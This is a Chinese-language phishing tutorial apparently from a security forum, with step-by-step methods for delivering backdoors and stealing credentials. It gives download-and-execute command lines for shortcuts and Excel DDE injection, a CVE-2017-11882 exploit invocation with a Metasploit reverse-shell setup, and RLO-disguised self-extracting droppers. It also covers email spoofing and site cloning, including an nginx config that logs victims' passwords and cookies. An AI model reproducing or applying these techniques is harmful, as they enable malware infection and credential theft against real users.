



# 一文就学会网络钓鱼“骚”姿势 - 先知社区

一文就学会网络钓鱼“骚”姿势

* * *

## 一、什么是网络钓鱼

网络钓鱼是通过伪造银行或其他知名机构向他人发送垃圾邮件，意图引诱收信人给出敏感信息(如用户名、口令、帐号 ID 、 ATM PIN 码或信用卡详细信息)的一种攻击方式。

## 二、网络钓鱼的基本流程

钓鱼一般分为三个步骤：寻找大鱼，制作鱼饵和抛竿

寻找大鱼：我们的目标一般包括： HR、销售、文员等安全意识比较薄弱的人员，以及运维、开发等掌握重要资源的人员。

制作鱼饵：一个高质量鱼饵一般分为两部分，一个是邮件内容更加的逼真可信，另一个是邮件的附件尽可能伪装的正常

抛竿：最后把鱼竿抛出后就可以坐等鱼上钩了

## 三、如何制作高质量鱼饵

### 0x01.自解压+RLO

制作思路：利用自解压文件的特性，解压后令其自动执行解压出来的文件，达到上线的目的，由于自解压文件后缀为exe，很容易被识破，所以我们还需使用RLO后缀反转进行一些伪装。

步骤一：用cs生成windows后门

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710171109-b5868060-1f01-1.png)

步骤二：随便准备一张图片，使用WinRAR把后门和图片一块自解压

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710171122-bd3837f4-1f01-1.png)

压缩文件时需在高级——自解压选项中进行一些的设置使木马的执行更加隐蔽：

常规——解压路径：C:\\windows\\temp

设置——解压后运行：C:\\windows\\temp\\artifact.exe

C:\\windows\\temp\\壁纸.jpg

模式——全部隐藏

更新——更新模式——解压并更新文件

更新——覆盖模式——覆盖所有文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710171155-d0b6712e-1f01-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710171212-db0f7cf6-1f01-1.png)

步骤三：使用resourcehacker更换文件图标,将其伪装成图片

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710171324-061fa934-1f02-1.png)

步骤四：把文件重命名为壁纸gpj.exe，再使用RLO对后缀进行反转，最后效果如下

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710171405-1e5ff17a-1f02-1.png)

结合邮件钓鱼等方式把“图片”放送给他人，引诱他人上钩

对方双击“图片”后，会同时执行artifact.exe和壁纸.jpg，而且上线cs

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710171829-bbbbd2ea-1f02-1.png)

### 0x02.快捷方式

制作思路：运行快捷键方式时，执行命令让其下载我们提前放在服务器上的后门程序并且运行

步骤一：cs生成后门，放到服务器网站目录下  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230710171426-2aee8424-1f02-1.png)

步骤二：创建快捷方式，在目标中写入以下代码

```plain
C:\Windows\System32\cmd.exe /k curl http://xxx.xxx.xxx.xxx/exe/artifact.exe --output C:\Windows\temp\win.exe && C:\Windows\temp\win.exe
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710171449-388e1c70-1f02-1.png)

步骤三：更换图标，增加其真实性  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230710171506-42ae8942-1f02-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710171944-e831fafc-1f02-1.png)

当对方双击快捷键方式时就会下载我们准备好的artifact.exe并且执行

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710172007-f61095de-1f02-1.png)

### 0x03.Word宏病毒

宏病毒是Word中被嵌入的带有恶意行为的宏代码（VBA代码），当我们双击打开带有宏病毒的word文档的时候它的宏代码会自动运行。

步骤一：使用cs生成恶意vba代码

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710172829-21845e70-1f04-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710172840-27d71380-1f04-1.png)

步骤二：新建doc文档，创建宏，保存即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710172906-378785d0-1f04-1.png)

步骤三：再次打开文件后提示是否启用宏，点击启用就会上线cs

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710172929-44ef6c9c-1f04-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710172947-4fa4658e-1f04-1.png)

### 0x04.Excel注入

Excel注入是一种将包含恶意命令的excel公式插入到可以导出csv或xls等格式的文本中，当在excel中打开xls文件时，文件会转换为excel格式并提供excel公式的执行功能，从而造成命令执行。

**利用excel注入弹出计算器**

注入代码：`=cmd| '/c calc'! '!A1'`

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710173033-6b0ceb16-1f04-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710173041-700b042c-1f04-1.png)

**利用excel注入上线cs**

步骤一：使用cs生成exe后门，并放到服务器上

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710173056-790edf6c-1f04-1.png)

步骤二：更换恶意代码

`=cmd| '/c curl http://xxx.xxx.xxx.xxx/beacon.exe --output C:\Windows\temp\win.exe && C:\Windows\temp\win.exe' ! 'A1'`

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710173202-a06f2b84-1f04-1.png)

当双击打开该excel时就会执行恶意代码下载cs后门并运行 ，上线cs

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710173211-a5bac094-1f04-1.png)

### 0x05.CVE-2017-11882

cve-2017-11882漏洞也是word钓鱼的一种方式，相比宏病毒更加的隐蔽，把word伪装成某某通知文件，目标点击后就直接可以直接上线。

利用cve-2017-11882弹出计算器：

下载poc：[https://github.com/Ridter/CVE-2017-11882](https://github.com/Ridter/CVE-2017-11882)

生成带有病毒的word文件

```plain
python2 Command109b_CVE-2017-11882.py -c "cmd.exe /c calc.exe" -o test.doc
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710173332-d5d526f2-1f04-1.png)

双击test.doc，弹出计算器

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710173352-e205e7a4-1f04-1.png)

利用cve-2017-11882上线msf

步骤一：使用exploit/windows/misc/hta\_server生成病毒

```plain
use exploit/windows/misc/hta_server
set payload windows/meterpreter/reverse_http
set lport 4444
show options
exploit
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710173413-ee731a70-1f04-1.png)

步骤二：生成带病毒的doc文件并伪装为通知文件

```plain
python2 Command109b_CVE-2017-11882.py -c "mshta http://192.168.126.132:8080/Uf7DGFz.hta" -o 通知文件.doc -i input.rtf
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710173510-108ae110-1f05-1.png)

受害人打开word，msf就会上线shell

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710173522-17c2501c-1f05-1.png)

## 四、邮件伪造

**Swaks**

Swaks是kali自带的一款邮件伪造工具，通过swaks可以向任意目标发送任意内容的邮件

```plain
swaks的用法：
--from <发件人的邮箱> 
--ehlo <伪造邮件头> 
--body <邮件正文内容> 
--header <邮件头信息，subject为邮件标题> 
--data <源邮件> 
--attach <附件文件>
```

给指定邮箱发送邮件

```plain
swaks --to seyoulala@chacuo.net --from A公司 --ehlo 中奖通知 --body 秉承“正德厚生，臻于至善”的企业核心价值观，立足发展，真情回馈社会和客户。全体员工祝贺您在此活动中获得一等奖。再次感谢您对本公司的关信和支持，本信仅为中奖凭证，具体细节见注意事项。 --header "Subject: 中奖通知"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710173536-1fff73b8-1f05-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710173544-246af21a-1f05-1.png)

现在的邮箱都有某种检测机制，要想他人发邮件，这种方法就不太行了

**Gophish**

Gophish是一个开源的钓鱼工具包，自带web面板，对于邮件编辑、网站克隆、数据可视化、批量发送等功能的使用带来的极大的便捷。

伪造中奖通知邮件，发送附件

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710173648-4a9226ca-1f05-1.png)

效果看着还可以，文件再免杀一下就更好了

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710173653-4dbca820-1f05-1.png)

第二种方法，邮件正文中插入克隆网站

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710173704-548695d0-1f05-1.png)

然后克隆一个qq邮箱的登录页面，引诱其输入账户密码

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710173709-57452eda-1f05-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710173714-5a42fd06-1f05-1.png)

如果对方提交输入账户密码就会在gophish中显示出来

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710173723-5fe654f6-1f05-1.png)

## 五、网站克隆

### 0x01、setoolkit

说到克隆网站，kali上自带的setoolkit给我们提供了很大的方便，不仅可以记录用户提交的数据，还可以进行注入攻击

#### setoolkit克隆网站

1、启动setoolkit，选者1，社工攻击

```plain
1) Social-Engineering Attacks【社工攻击(常用)】
   2) Penetration Testing (Fast-Track)【渗透测试（快速的）】
   3) Third Party Modules【第三方模块】
   4) Update the Social-Engineer Toolkit【更新社工工具包】
   5) Update SET configuration【升级配置】
   6) Help, Credits, and About【帮助】
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710173833-89992044-1f05-1.png)

2、随后选择2，web网站式攻击-钓鱼

```plain
1) Spear-Phishing Attack Vectors【鱼叉式网络钓鱼攻击】
   2) Website Attack Vectors【web网站式攻击-钓鱼(常用)】
   3) Infectious Media Generator【传染性木马】
   4) Create a Payload and Listener【创建payload和监听器】
   5) Mass Mailer Attack【邮件群发攻击】
   6) Arduino-Based Attack Vector【基于安卓的攻击】
   7) Wireless Access Point Attack Vector【wifi攻击】
   8) QRCode Generator Attack Vector【生成二维码(就普通二维码)】
   9) Powershell Attack Vectors【Powershell攻击】
  10) Third Party Modules【第三方模块】
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710173843-8f5daeb4-1f05-1.png)

3、选择3，凭证攻击

```plain
1) Java Applet Attack Method【java小程序攻击】
   2) Metasploit Browser Exploit Method【Metasploit浏览器利用】
   3) Credential Harvester Attack Method【凭证攻击(常用)】
   4) Tabnabbing Attack Method【Tabnabbing攻击】
   5) Web Jacking Attack Method【web劫持】
   6) Multi-Attack Web Method【web多重攻击】
   7) HTA Attack Method【HTA攻击】
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710173849-92d00eb6-1f05-1.png)

4、最后选择2，网站克隆

```plain
1) Web Templates【web模板】
   2) Site Cloner【克隆网站】
   3) Custom Import【自定义导入】
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710173854-9626631c-1f05-1.png)

5、ip默认即可，最后输入要克隆的站点

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710173859-9924632a-1f05-1.png)

6、访问攻击者的ip就可以看到克隆的站点

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710173905-9c4fcc88-1f05-1.png)

当用户输入账户密码时就会被记录

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710173910-9f535742-1f05-1.png)

#### setoolkit HTA注入攻击

先使用setoolkit克隆一个站点，当用户点击运行脚本的时候，会触发反弹一个Shell。

1、启动setoolkit，并选择1，社工攻击

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710173945-b4748a42-1f05-1.png)

2、然后选择2，web网站式攻击-钓鱼

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710173950-b756c9be-1f05-1.png)

3、随后选择7，HTA攻击

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710173955-ba0f964a-1f05-1.png)

4、选择2，克隆网站

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710174000-bd651810-1f05-1.png)

5、输入克隆的站点，监听ip和端口默认就行，最后还需选择一个攻击载荷 Meterpreter Reverse TCP

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710174005-c041b9a8-1f05-1.png)

当攻击者访问攻击机的ip时就会弹出弹窗并且上线shell

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710174010-c2e8487a-1f05-1.png)

### 0x02、nginx反向代理克隆镜像网站

nginx有个反向代理功能，将客户端的请求均匀地分配到后端的多个业务服务器进行处理，nginx再将执行结果返回给客户端，以此来解决网站流量过大的问题。

利用nginx反向代理克隆生成镜像网站就是通过反向代理将请求分发到一个不属于我们的网站去处理，最后将处理的结果再通过nginx返回给用户。

1、打开nginx配置⽂件/www/server/nginx/conf/nginx.conf ， 在http处添加以下配置，指定日志的存储内容。

```plain
log_format Clonelog escape=json '{$remote_addr|'
    '$request_filename|'
    '$request_body|'
    '$http_cookie|'
    '$http_x_forwarded_for|'
    '$time_local}';
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710174040-d51ee788-1f05-1.png)

2、在/www/server/panel/vhost/nginx/目录下新增clone.conf，做如下配置，生成镜像网站

```plain
server
{

    listen 8000;
    server_name 127.0.0.1;
    index index.html index.htm index.php;
    access_log /www/wwwlogs/access.log Clonelog;

 location / {
    proxy_pass http://xxx.xxx.com;
    proxy_buffering off;
    proxy_set_header X-Real-Ip $remote_addr;
    proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
    proxy_set_header Host "xxx.xxx.com";
    proxy_set_header Accept-Encoding "";
    proxy_set_header User-Agent $http_user_agent;
    proxy_set_header referer "http://xxx.xxx.com$request_uri";
    }
}
```

server\_name 监听的域名。

access\_log 设置输出⽇志的路径，最后面是我们配置的日志输出格式 。

proxy\_pass 反向代理的⽹站 。

proxy\_set\_header ⽤于在向反向代理的后端 Web 服务器发起请求时 添加指定的 Header头信息。

access\_log 要和上⾯的nginx.conf 配置中的Clonelog 对应不然⽇志 不会起作⽤。

重点是$request\_body (获取post数据)，$http\_cookie (获取cookie数据)这就是我们钓⻥的核⼼了。当有⼈访问并登陆我们反向代理的⽹站以 后 我们点开⽇志就可以看到他的cookie和post提交的⽤户名和密码了。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710174053-dcb5b12a-1f05-1.png)

3、重新加载nginx配置文件，`nginx -s reload`

4、访问克隆网站，查看效果

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710174104-e337c1dc-1f05-1.png)

4、如果用户提交账户密码，就会被日志文件记录，日志文件位置：/www/wwwlogs/access.log

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710174109-e68c90c4-1f05-1.png)

### 0x03、前端页面克隆

先找一个大型网站，带登录界面的那种，用ctrl+s将网站前端代码保存下来，再把后台功能稍加修改，这样我们的钓鱼网站在界面上差不多就可以做到以假乱真了。

以某宝官网为目标

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710180145-c6c7245e-1f08-1.png)

使用ctrl+s把网站前端代码保存下来

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710181323-66fae18a-1f0a-1.png)

但是放到网站目录下访问却会出现一些偏差，密码框被拉长了

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710181318-63f94e9a-1f0a-1.png)

经过一番调试，需要把密码框前的标签中的id属性删除，再访问就不会有问题了  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230710174143-fa55a726-1f05-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710181100-11c21800-1f0a-1.png)

现在两个界面除了url以外，其他的地方基本上都一样了

使用F12寻找原网站的账号密码在form标签中的name值

账号的name值:logonId

密码的name值:password\_rsainput

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710180703-84597d14-1f09-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710180708-8793d8e4-1f09-1.png)

把表单内容提交到check.php，为了保证真实性，让用户在第一次输入完账户密码后弹一个“该账户不存在或登录密码出错已达上限，请更换账户。”，然后再跳转到真实网址上。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710174329-39a9b412-1f06-1.png)

但是只修改这部分会出现问题，就是只能接收到账号，接收不到密码

经排查，需要将密码的name值做修改，不能使用网页原来的值,这里将其修改为passwordaa，确保不会重复  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230710174336-3dc88b54-1f06-1.png)

Check.php里也需要修改

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710174342-41a2f188-1f06-1.png)

再尝试登录钓鱼网站

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710180801-a71f82bc-1f09-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710174353-47ed9020-1f06-1.png)

成功接收到了用户输入的账号密码

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710174359-4bd46e2a-1f06-1.png)

不过这样用户名密码的查看并不方便，写个show.php来进行展示

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710174659-b6ab700e-1f06-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230710174704-ba1d289a-1f06-1.png)

为了使网站跟看起来更真实，还可以购买域名进行一些伪装
